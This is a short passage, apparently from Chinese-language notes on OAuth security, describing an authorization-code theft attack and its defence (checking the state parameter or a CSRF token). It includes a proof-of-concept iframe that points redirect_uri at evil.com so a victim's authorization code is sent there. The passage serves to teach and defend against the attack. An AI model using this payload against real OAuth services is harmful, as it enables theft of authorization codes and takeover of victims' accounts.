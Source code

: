 poc:
```html
<iframe src="https://oauth-server.net/auth?client_id=CLIENT-ID&redirect_uri=https://evil.com&response_type=code&scope=openid%20profile%20email"></iframe>
```
用户访问网页加载后其授权码将会自动发送到https://evil.com上.  

2. 攻击者得到授权码后直接调用对应的API登录受害者账户.  
防御方案:  
同样的在通过授权码登录时还应检查参数与第一步请求授权码的state参数是否一致或者添加CSRF Token参数,这样即使得到了授权码也会因为没有state参数登录失败.
## 参考
https://portswigger.net/web-security/oauth